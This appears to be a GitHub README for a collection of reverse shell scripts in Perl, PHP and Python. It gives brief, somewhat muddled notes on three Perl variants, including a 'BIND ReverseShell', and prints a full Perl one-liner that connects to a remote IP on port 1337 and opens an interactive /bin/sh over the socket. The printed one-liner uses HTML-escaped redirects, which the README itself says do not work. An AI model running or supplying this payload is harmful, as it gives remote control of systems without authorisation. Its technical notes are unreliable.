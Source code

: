 # ReverseShellScript (Not mine script)
Reverse Shell script : PERL , PHP , PYTHON
___

ReverseShell.pl
```>&S``` is the correct command to redirect data to socket ```S```.

ReverseShell2.pl
```&gt;&amp;S``` is an encoded format that does not work in Perl or shell. (Its output will be sent out in HTML tags.)

ReverseShell3.pl
for BIND ReverseShell ;)

```
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```
